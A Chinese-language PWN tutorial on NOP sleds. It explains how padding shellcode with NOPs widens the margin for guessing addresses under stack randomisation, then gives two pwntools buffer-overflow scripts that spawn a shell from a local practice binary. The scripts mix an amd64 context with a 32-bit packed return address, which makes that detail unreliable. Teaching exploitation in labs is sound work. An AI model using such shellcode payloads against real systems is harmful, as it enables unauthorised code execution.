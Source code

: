 ```yaml
---
title: 'NOPs'
date: '2023-08-08'
lastmod: '2023-08-20'
tags: ['PWN', 'Stack']
draft: false
summary: '更可靠的 shellcode'
authors: ['default']
---
```


由于在调试工具里得到的返回地址和正常运行时并不一致（这是运行时环境变量等因素有所不同造成的），所以这种情况下我们只能得到大致但不确切的 shellcode 起始地址，解决办法是在溢出 Padding 前面填充若干长度的 NOP。

NOP，无操作 (**N**o **OP**eration) 指令的作用正如其名：什么也不做。所以在运行到 NOP 指令的时候只会使程序计数器加一，而不会发生其它的事情。这是一种可以破解栈随机化的缓冲区溢出攻击方式。攻击者通过填充字符串注入攻击代码，在实际的攻击代码前注入很长的 NOP 指令序列，只要程序的控制流指向该序列任意一处，都可以无副作用地跳转到 shellcode 的起始处，这允许我们有更大的误差范围，因为向前或向后移动几个字节不会影响程序的正常运行。这与直接运行 shellcode 具有相同的效果。这种 NOP Padding 通常被称为 NOP Slide 或 NOP Sled（俗称「滑雪橇」），因为 EIP 本质上是沿着它们 Slide 的。这样我们就可以通过增加 NOP 填充来试验 shellcode 的起始地址。NOP Sled 可以帮助攻击者提高访问到自己的攻击代码的概率。

[地址空间配置随机化 (ASLR)](https://zh.wikipedia.org/wiki/%E4%BD%8D%E5%9D%80%E7%A9%BA%E9%96%93%E9%85%8D%E7%BD%AE%E9%9A%A8%E6%A9%9F%E8%BC%89%E5%85%A5) 指程序运行时栈的起始地址是随机的，所以程序中存放各函数返回地址的地址也会发生对应的改变。可防止运行相同程序的相同系统因易预测栈地址而被攻击。

由于栈地址在一定范围的随机性，攻击者不能够知道攻击代码注入的地址，而要执行攻击代码需要将函数的返回地址更改为攻击代码的地址（可以通过缓冲区溢出的方式篡改函数的返回地址）。所以，只能在一定范围内（栈随机导致攻击代码地址一定范围内随机）枚举攻击代码的地址（有依据的猜）。

<Note>
  为了尝试破解 $2^{23}$ 的随机化，则需要枚举 $2^{23}$ 个返回地址。而使用 NOP Sled 的方式，若枚举一个 $2^{8}$ Bytes 的 NOP sled，则只需要枚举 $2^{23} / (2^{8} + 1)$ 个返回地址即可，因为每次枚举出的地址只要是 $2^{8}$ 中的之一就可以。（攻击代码本身有一个起始地址，所以为 $255 + 1$）
</Note>

不用 NOP Sled，函数返回地址 ---> 攻击代码<br />
使用 NOP Sled，函数返回地址 ---> NOP 序列（顺序执行）直到攻击代码地址

在 Intel x86 汇编中，NOP 指令是 `\x90`。

NOP 指令是 `XCHG EAX, EAX` 的别名（32 bit 系统中），它实际上什么也不做。你可以在这个 [问题](https://stackoverflow.com/questions/25008772/whats-the-difference-between-the-x86-nop-and-fnop-instructions) 上阅读更多相关信息。

## 0x01 更新 Exploit

现在可以对我们的 EXP 进行一些细微的更改，以完成两件事：

- 添加大量 NOP Padding
- 调整我们的返回地址以指向 NOP 的中间而不是缓冲区的开头

<Warning>
  确保 ASLR 仍处于禁用状态。你可能需要重新调整之前的 EXP，因为缓冲区位置可能会有所不同。
</Warning>

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = b'\x90' * 240             # 构建 NOPs
payload += asm(shellcraft.sh())     # 构建 shellcode
payload = payload.ljust(312, b'A')  # 溢出 Padding
payload += p32(0xffffd664 + 120)    # 缓冲区地址 + 一半 NOPs 长度

p.sendline(payload)

p.interactive()
```

<Warning>
  值得一提的是：带有 NOP 的 shellcode 并不是万无一失的。如果出现用 NOP Sled 造成的意外错误，但 shellcode 在使用 NOP Sled 之前可以正常工作，请尝试减少 NOP Sled 的长度，因为它可能会篡改栈上的其它内容。
</Warning>

**NOP 在某些架构中不是 `\x90`。如果你需要其他架构的 NOP，可以使用 pwntools：**

```python
nop = asm(shellcraft.nop())
```

## 0x02 最终 Exploit

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.nop()) * 240  # 构建 NOPs
payload += asm(shellcraft.sh())        # 构建 shellcode
payload = payload.ljust(312, b'A')     # 溢出 Padding
payload += p32(0xffffd664 + 120)       # 缓冲区地址 + 一半 NOPs 长度

p.sendline(payload)

p.interactive()
```

